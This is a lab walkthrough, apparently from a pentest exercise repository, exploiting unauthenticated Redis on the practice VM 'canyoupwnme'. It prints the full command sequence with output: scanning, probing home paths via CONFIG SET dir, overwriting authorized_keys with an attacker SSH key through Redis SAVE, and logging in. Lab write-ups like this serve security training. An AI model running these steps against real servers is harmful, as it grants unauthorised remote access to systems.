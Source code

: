# Redis

By exploiting the Redis' vulnerability presented by antirez in
[his blog post](http://antirez.com/news/96), we'll try to get access to the
target machine.

## Port scanning to identify Redis

Let's try to scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    1322/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    ...
    6379/tcp  open  redis       Redis key-value store
    ...

Seems that Redis is binded on the default port and SSH on custom port 1322.

## Check for Redis AUTH

By using `telnet`, verify if Redis requires authentication

    $ telnet canyoupwnme 6379
    Trying 10.0.100.195...
    Connected to canyoupwnme.pentest.
    Escape character is '^]'.
    echo "You can pwn me!!!"
    $15
    You can pwn me!!!
    quit
    +OK
    Connection closed by foreign host.

Yep! Redis does not require AUTH. Before going ahead, let's get some system
information via Redis `INFO` command

    $ redis-cli -h canyoupwnme
    canyoupwnme:6379> INFO
    # Server
    redis_version:3.0.7
    ...
    os:Linux 3.19.0-25-generic i686
    arch_bits:32
    ...
    gcc_version:4.8.4
    ...
    config_file:/etc/redis/6379.conf
    ...

## Preparing the SSH key

The antirez's attack exploits Redis to upload the SSH pubkey on the target
machine. Let's start by creating a new set of keys that we use to access the
machine.

    $ mkdir ssh-redis
    $ ssh-keygen -f ./ssh-redis/attacker

## Identify the right path on the target machine

By using `redis-cli` tool as oracle, we identify user's home path(s). The idea
is to exploit the `redis-cli` return messages.

    $ redis-cli -h canyoupwnme CONFIG SET dir "/root"
    OK

    $ redis-cli -h canyoupwnme CONFIG SET dir "/xxx/yyy"
    (error) ERR Changing directory: No such file or directory

By using a usernames wordlist and a simple Python script we iterate over all
the usernames in order to check all the paths formed as follows

    /home/<username>/.ssh

After a while, we get the following path

    /home/user/.ssh

## Do the attack

As indicated by antirez, the idea at the base of the attack is to use the
`SAVE` command to overwrite the `authorized_keys` file of the victim. All the
attack's steps are well explained in the antirez's blog.

*   Generating the blob to be injected

        $ echo -e '\n\n' >> blob.txt
        $ cat ssh-redis/attacker.pub >> blob.txt
        $ echo -e '\n\n' >> blob.txt

*   Getting the current Redis' configuration (`dir` is already set due to the
    previous path's identification phase)

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "dump.rdb"

*   Update the Redis' configuration

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG SET dbfilename "authorized_keys"
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "authorized_keys"

*   Do the attack

        $ # flushing the current Reids' db
        $ redis-cli -h canyoupwnme flushall
        OK
        $ # set the `sshblob` key with the SSH pubkey value
        $ cat blob.txt | redis-cli -h canyoupwnme -x set sshblob
        OK
        $ # save the current db in /home/user/.ssh/authorized_keys file
        $ redis-cli -h canyoupwnme save
        OK

*   Try the SSH login

        $ ssh -l user -i ssh-redis/attacker canyoupwnme -p1322

          G:                ,;
          E#,    :        f#i                        .Gt  t    j.
          E#t  .GE      .E#t                        j#W:  Ej   EW,
          E#t j#K;     i#W,     t      .DD.       ;K#f    E#,  E##j
          E#GK#f      L#D.      EK:   ,WK.      .G#D.     E#t  E###D.
          E##D.     :K#Wfff;    E#t  i#D       j#K;       E#t  E#jG#W;
          E##Wi     i##WLLLLt   E#t j#f      ,K#f   ,GD;  E#t  E#t t##f
          E#jL#D:    .E#L       E#tL#i        j#Wi   E#t  E#t  E#t  :K#E:
          E#t ,K#j     f#E:     E#WW,          .G#D: E#t  E#t  E#KDDDD###i
          E#t   jD      ,WW;    E#K:             ,K#fK#t  E#t  E#f,t#Wi,,,
          j#t            .D#;   ED.                j###t  E#t  E#t  ;#W:
           ,;              tt   t                   .G#t  E#t  DWi   ,KK:
                                                      ;;  ,;.

                                                           by canyoupwn.me

        Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

         * Documentation:  https://help.ubuntu.com/

          System information as of Fri Apr 15 10:50:08 EEST 2016

          System load: 0.0               Memory usage: 3%   Processes:       79
          Usage of /:  32.5% of 6.50GB   Swap usage:   0%   Users logged in: 0

          Graph this data and manage this system at:
            https://landscape.canonical.com/

        151 packages can be updated.
        79 updates are security updates.

        Last login: Thu Apr 14 20:02:53 2016 from kali.pentest
        user@canyoupwnme:~$ whoami
        user
        user@canyoupwnme:~$ pwd
        /home/user
